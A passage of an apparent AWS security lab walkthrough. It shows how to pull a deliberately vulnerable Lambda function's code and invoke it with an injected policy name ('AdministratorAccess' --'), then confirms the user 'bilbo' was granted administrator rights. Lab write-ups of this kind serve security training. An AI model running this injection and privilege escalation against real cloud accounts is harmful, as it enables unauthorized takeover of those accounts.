 We got the function name `vulnerable_lambda_###-policy_applier_lambda1` which had arn `arn:aws:lambda:us-east-1:291364365093:function:vulnerable_lambda_###-policy_applier_lambda1`

### Look at the target lambda source code

Get our target lambda source code, you need to run
```shell
aws --profile assumed_role --region us-east-1 lambda get-function --function-name <function-name-or-function-arn>
```

Result:
```json
{
    "Configuration": {
        "FunctionName": "vulnerable_lambda_###-policy_applier_lambda1",
        "FunctionArn": "arn:aws:lambda:us-east-1:###:function:vulnerable_lambda_###-policy_applier_lambda1"
    },
    "Code": {
        "RepositoryType": "S3",
        "Location": "s3 link to download source code"
    }
}
```

We will get link to download source code on the `Location` key.

#### Time to think
From the function code, we know that this function can attach any policies to any user in the account, so we will use this compromised code to attach the administator policy to `bilbo` user which allows to do whatever we want in the account.

### Invoke administrator policy to `bilbo` user

Invoke the lambda to attached administrator access policy to `bilbo`, you need to run
```shell
aws --profile assumed_ld_invoker --region us-east-1 lambda invoke --function-name <function-name> --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": "<bilbo-user-name>"}' <file-name-you-want>.txt
```

See the output,
```shell
cat <file-name-you-want>.txt
```

Confirm that `bilbo` user got the `AdministratorAccess` policy,
```shell
aws --profile bilbo --region us-east-1 iam list-attached-user-policies --user-name <bilbo-user-name>
```

Result:
```json
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
```
